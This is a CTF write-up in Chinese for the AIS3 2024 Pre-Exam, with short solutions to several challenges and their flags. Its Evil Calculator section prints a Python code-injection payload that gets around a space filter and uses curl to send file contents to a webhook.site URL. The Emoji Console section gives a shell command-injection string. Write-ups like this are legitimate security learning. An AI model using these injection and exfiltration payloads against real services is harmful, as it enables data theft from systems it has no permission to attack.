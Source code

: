 ```yaml
---
lang: zh-TW
title: "AIS3 2024 Pre-Exam Writeup"
tags: [ "Cyber Security", "Competition", "CTF Writeup" ]
authors: [ "XinShou" ]
type: post
showTableOfContents: true
date: 2024-05-29
---
```


## Evil Calculator

這題會先移除掉空格與底線，目標是製作一個不包含那兩個符號的Payload，將資料發送到自己的webhook。

我將空格改成 chr(32)，底線在Payload中沒有使用到

```py {linenos=inline}
# exec("import os; os.system(\'cat flag.txt\')")
#
# $(curl -XPOST https://webhook.site/b73912c2-79c8-4062-8d33-acf91d9d27cf -d "$(ls)") #


import requests
txt = r'exec("import"+chr(32)+"os;"+chr(32)+"os.system(\'curl"+chr(32)+"-XPOST"+chr(32)+"https://webhook.site/da2c3866-c9fe-453c-b079-a7146b7b6347"+chr(32)+"-d"+chr(32)+"\"$(cat"+chr(32)+"../*)\"\')")'
# eval(txt)  # 測試結果是否成功
print(' ' in txt)
print(requests.post(r'http://chals1.ais3.org:5001/calculate', json={'expression': txt}).json())
```

比賽截圖
![image](https://hackmd.io/_uploads/r11J_RRXC.png)

writeup截圖
![image](https://hackmd.io/_uploads/Sk4P0LD4C.png)

Flag: `AIS3{7RiANG13_5NAK3_I5_50_3Vi1}`

<br/><br/><br/><br/><br/>

## The Long Print

Ida 修改流程即可拿到Flag。我將每次傳入sleep的arg (`rdi`)都更改為0，這樣就可以規避掉sleep函數的長等待。這雖然不是最好的解法，但當下只有想到這樣。

writeup截圖
![image](https://hackmd.io/_uploads/ryvJ1Dv4A.png)
![image](https://hackmd.io/_uploads/S1Fl1PP40.png)
![image](https://hackmd.io/_uploads/rkqzkvvEA.png)


Flag: `AIS3{You_are_the_master_of_time_management!!!!?}`

<br/><br/><br/><br/><br/>

## Quantum Nim Heist

亂亂按就發現大問題了，Enter, Enter, get flag


比賽截圖
![image](https://hackmd.io/_uploads/HkEjm1J4C.png)

writeup截圖
![image](https://hackmd.io/_uploads/H1uUyDDEC.png)
![image](https://hackmd.io/_uploads/H13PyvP40.png)
![image](https://hackmd.io/_uploads/SyzOJDPVC.png)


Flag: `AIS3{Ar3_y0u_a_N1m_ma57er_0r_a_Crypt0_ma57er?}`

<br/><br/><br/><br/><br/>

## Emoji Console

原本只想透過 `;` 與 `$()` 試著湊出來，但一直沒有成功。到最最最後才亂撞出 `;` 搭配 `|` 可以湊出多指令執行

最後使用的語法 `cd flag;p:|python flag-print*)`

![image](https://hackmd.io/_uploads/SkatC9eVC.png)
![image](https://hackmd.io/_uploads/SJLsC9gNA.png)

<br/><br/><br/><br/><br/>

## Three Dimensional Secret

打開pcapng後，follow其中可疑的TCP，發現到以下內容。截取片段讓GPT分析，並得知為G-Code語法，丟到線上網站便可得到Flag

![image](https://hackmd.io/_uploads/HJGMbDPE0.png)
![image](https://hackmd.io/_uploads/ryK9bwv4R.png)
![image](https://hackmd.io/_uploads/BJlRWvPNR.png)

<br/><br/><br/><br/><br/>

## Welcome

這題看起來挺難的，一開時沒注意到落後了一大截ＱＱ

![image](https://hackmd.io/_uploads/SyLeMwDVR.png)